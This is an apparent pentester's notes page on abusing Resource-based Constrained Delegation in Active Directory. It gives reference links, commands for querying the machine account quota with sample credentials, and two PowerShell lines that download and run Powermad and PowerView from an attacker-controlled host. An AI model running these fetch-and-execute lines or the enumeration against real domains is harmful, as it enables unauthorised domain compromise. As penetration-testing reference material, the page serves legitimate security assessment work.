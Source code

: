 # Resource-based Constrained Delegation

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

* [https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/](https://sensepost.com/blog/2020/chaining-multiple-techniques-and-tools-for-domain-takeover-using-rbcd/)
* [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/RBCD_Abuse_Checker.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/RBCD_Abuse_Checker.ps1)




## MAQ (Machine Account Quota)

PowerShell (ActiveDirectory module):

```
PS > Get-ADObject -Identity "DC=megacorp,DC=local" -Properties * | select ms-ds-machineAccountQuota
```

PowerView:

```
PV3 > Get-DomainObject -Identity "DC=megacorp,DC=local" | select ms-ds-machineAccountQuota
```

LDAP:

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd1!' -m custom --filter '(&(objectClass=domain)(distinguishedName=DC=megacorp,DC=local))' --attrs ms-ds-machineAccountQuota
$ ldeep ldap -d megacorp.local -u snovvcrash -p 'Passw0rd!' -s ldap://192.168.1.11 search '(&(objectClass=domain)(distinguishedName=DC=nightcity,DC=net))' ms-ds-machineAccountQuota
```

CrackMapExec:

```
$ cme ldap 192.168.1.11 -u snovvcrash -p 'Passw0rd!' -M MAQ
```




## RBCD from Windows

Load tools:

```
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powermad.ps1")
PS > IEX(New-Object Net.WebClient).DownloadString("http://10.10.13.37/powerview4.ps1")
```
